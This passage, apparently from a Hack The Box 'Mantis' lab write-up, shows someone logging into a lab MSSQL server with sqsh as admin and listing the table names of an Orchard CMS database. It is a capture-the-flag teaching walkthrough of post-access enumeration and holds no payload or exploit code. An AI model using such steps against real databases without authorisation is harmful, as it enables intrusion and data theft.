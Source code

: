 ```
root@kali:~/htb/mantis# sqsh -S 10.10.10.52 -U admin
sqsh-2.1.7 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2010 Michael Peppler
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
Password: 
1> 
```

Let's enumerate the table names inside `orcharddb`.

 _Note: I've cleaned up the formatting below, `sqsh` has terrible output formatting. You can output into a CSV file and view in something else however if needed. Something like `go -m csv > /root/htb/mantis/table.csv`_

```
1> SELECT TABLE_NAME FROM orcharddb.INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';
2> go

	TABLE_NAME 

	-------------------------------------------------------------------------------

	blog_Orchard_Blogs_RecentBlogPostsPartRecord                  
	blog_Orchard_Blogs_BlogArchivesPartRecord  
	blog_Orchard_Workflows_TransitionRecord
	blog_Orchard_Workflows_WorkflowRecord  
	blog_Orchard_Workflows_WorkflowDefinitionRecord 
	blog_Orchard_Workflows_AwaitingActivityRecord 
	blog_Orchard_Workflows_ActivityRecord 
	blog_Orchard_Tags_TagsPartRecord 
	blog_Orchard_Framework_DataMigrationRecord 
	blog_Orchard_Tags_TagRecord       
	blog_Orchard_Tags_ContentTagRecord 
	blog_Settings_ContentFieldDefinitionRecord 
	blog_Orchard_Framework_DistributedLockRecord 
	blog_Settings_ContentPartDefinitionRecord  
	blog_Settings_ContentPartFieldDefinitionRecord   
	blog_Settings_ContentTypeDefinitionRecord      
	blog_Settings_ContentTypePartDefinitionRecord 
	blog_Settings_ShellDescriptorRecord     
	blog_Settings_ShellFeatureRecord    
	blog_Settings_ShellFeatureStateRecord  
	blog_Settings_ShellParameterRecord  
	blog_Settings_ShellStateRecord      
	blog_Orchard_Framework_ContentItemRecord   
	blog_Orchard_Framework_ContentItemVersionRecord  
	blog_Orchard_Framework_ContentTypeRecord  
	blog_Orchard_Framework_CultureRecord   
	blog_Common_BodyPartRecord   
	blog_Common_CommonPartRecord    
	blog_Common_CommonPartVersionRecord   
	blog_Common_IdentityPartRecord  
	blog_Containers_ContainerPartRecord   
	blog_Containers_ContainerWidgetPartRecord   
	blog_Containers_ContainablePartRecord 
	blog_Title_TitlePartRecord  
	blog_Navigation_MenuPartRecord  
	blog_Navigation_AdminMenuPartRecord   
	blog_Scheduling_ScheduledTaskRecord    
	blog_Orchard_ContentPicker_ContentMenuItemPartRecord 
	blog_Orchard_Alias_AliasRecord   
	blog_Orchard_Alias_ActionRecord   
	blog_Orchard_Autoroute_AutoroutePartRecord 
```